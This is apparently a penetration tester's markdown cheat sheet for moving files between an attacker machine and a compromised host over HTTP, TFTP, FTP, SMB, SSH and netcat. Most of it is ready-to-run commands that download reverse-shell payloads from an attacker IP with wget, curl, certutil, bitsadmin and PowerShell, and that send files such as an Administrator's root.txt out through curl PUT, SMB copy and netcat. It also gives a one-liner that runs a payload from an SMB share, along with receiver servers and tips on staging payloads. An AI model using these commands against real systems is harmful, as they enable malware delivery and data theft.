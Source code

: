 # Transfering files
## HTTP

### Method 1

#### Sender

`python3 -m http.server 8000`
`python -m SimpleHTTPServer`

#### Receiver
##### Linux
`wget http://10.10.10.79:8000/rev_shell.sh -O /tmp/rev_shell.sh` <br>
`curl http://10.10.10.79:8000/rev_shell.sh -o /tmp/rev_shell.sh` <br>

##### Windows
`curl http://10.10.10.79:8000/rev_shell.exe -o rev_shell.exe` <br>
You need to mention the -o (-OutFile) flag in order to save the file. If we do not mention the flag then it will only return it as an object i.e., WebResponseObject. <br>
`certutil -urlcache -f http://10.10.10.79:8000/rev_shell.exe rev_shell.exe` <br>
`certutil -urlcache -split -f http://10.10.10.79:8000/rev_shell.exe rev_shell.exe` <br>
(The -split option in certutil is used to split large files into smaller segments to perform the file transfer.) <br>
`bitsadmin /transfer job ttp://10.10.10.79:8000/rev_shell.exe C:\Users\Public\rev_shell.exe` <br>
Bitsadmin is a command-line utility for handling Background Intelligent Transfer Service (BITS) tasks in Windows. It facilitates different file transfer operations, including downloading and uploading files.  <br>
`powershell wget http://10.10.10.79:8000/rev_shell.exe -o rev_shell.exe`
`powershell -c (New-Object System.Net.WebClient).DownloadFile('http://10.10.10.79:8000/rev_shell.exe', 'rev_shell.exe')`
instantly execute it:
``

### Method 2

#### Sender

`curl -T root.txt http://10.10.10.79:8080`

`curl -X PUT --data-binary@"C:\Users\Administrator\Desktop\root.txt" http://10.10.10.79:8080/root.txt`

#### Receiver

python3 -m SimpleHTTPPutServer 8080

[SimpleHTTPPutServer.py](https://gist.github.com/fabiand/5628006)

```
# python3 -m SimpleHTTPPutServer 8080

from http.server import HTTPServer, SimpleHTTPRequestHandler

class PutHTTPRequestHandler(SimpleHTTPRequestHandler):
    def do_PUT(self):
        print(self.headers)
        length = int(self.headers["Content-Length"])
        path = self.translate_path(self.path)
        with open(path, "wb") as dst:
            dst.write(self.rfile.read(length))
        self.send_response(200)
        self.end_headers()


def run(server_class=HTTPServer, handler_class=PutHTTPRequestHandler):
    server_address = ('', 8000)
    httpd = server_class(server_address, handler_class)
    httpd.serve_forever()

if __name__ == '__main__':
    run()
```

Or

`python3 webserver.py

webserver.py
```
from flask import Flask, request
import os

app=Flask(__name__)

@app.route('/root.txt', methods=['PUT'])
def upload_file():
    file=request.data
    with open('root.txt','wb') as f:
        f.write(file)
    return "File Uploaded successfully", 200

if __name__ == '__main__':
    app.run(host='0.0.0.0',port=8080)

```


## TFTP

TFTP (Trivial File Transfer Protocol)	TFTP uses UDP for simple file transfers, commonly used by older Windows systems and others.

Use metaspoit framework:
```
use auxiliary/server/tftp
set srvhost 192.168.31.141
set tftproot /root/raj
run
```

```
tftp -i 192.168.31.219 GET ignite.txt
dir
```

## FTP

Use metasploit framework:
```
msfconsole -q
use auxiliary/server/ftp
set srvhost 192.168.31.141
set ftproot /root/raj
set ftpuser raj
set ftppass 123
run
```

```
ftp 192.168.31.141
dir
get ignite.txt
```

`python3 -m pyftpdlib -w -p 21 -u ignite -P 123`

```
ftp 192.168.31.141
get ignite.txt
put C:\Users\raj\avni.txt
```

or:
`wget ftp://<kali_IP>:<Port_number>/<file> (-O /path/to/dir/<file>)`

## SMB

### Bi-directional

```
impacket-smbclient "$user:$pass@$ip"
use Shared
put rev_shell.exe
get secret.txt
```

```
smbclient -L 192.168.31.141
smbclient "\\\\192.168.31.141\share"
ls
get ignite.txt
put data.txt
```

#### Sender
`impacket-smbserver share .` <br>
`impacket-smbserver share $(pwd) -smb2support -username smbuser -password smbpass` <br>
Sometimes it is not allowed to connect to shares without authentication.

#### Receiver

```
net use \\10.10.10.45\share /user:smbuser
smbpass
```

`copy ignite.txt \\192.168.31.141\share\ignite.txt`

to instantly execute it: `powershell -c (\\<kali_IP\<server_name>\<payload)`

or just copy: `copy \\192.168.31.141\share\ignite.txt`

`copy C:\Users\Administrator\Desktop\root.txt \\10.10.10.79\share\`

Kali -> Victim

| Kali    | Windows Victim PowerShell |
| -------- | ------- |
| impacket-smbserver <server_name> .  | to instantly execute it: powershell -c (\\<kali_IP\<server_name>\<payload) |

impacket-smbserver <server_name> .

## SSH

### Sender

`scp secret.txt kali@10.10.10.79:/path/to/dir`
`scp ./hash.txt kracken@192.168.0.45:"C:\\Users\\kracken\\Desktop\\hacking\\hashes\\hash.txt"`

### Receiver

`scp kracken@192.168.0.45:"/C:/Users/kracken/Desktop/crack" .`

## NetCat

receiver:
`nc -lvp 5555 > file.txt`
and then sender:
`nc 192.168.31.141 5555 < file.txt`
`nc -w 3 [destination] <Port_number> < <file_name>`

On Windows:
`nc.exe 192.168.31.141 5555 < data.txt`
`nc -lvp 5555 > data.txt`



Useful notes:
- On Linux receiving: worth using /tmp directory, as it is globally readable, writeable and executable.
- On Windows the C:\Users\Public\ directory is accessible to all users on a Windows system.
- Upgrade your shell if possible.
- If one method doesn't work, try another one.
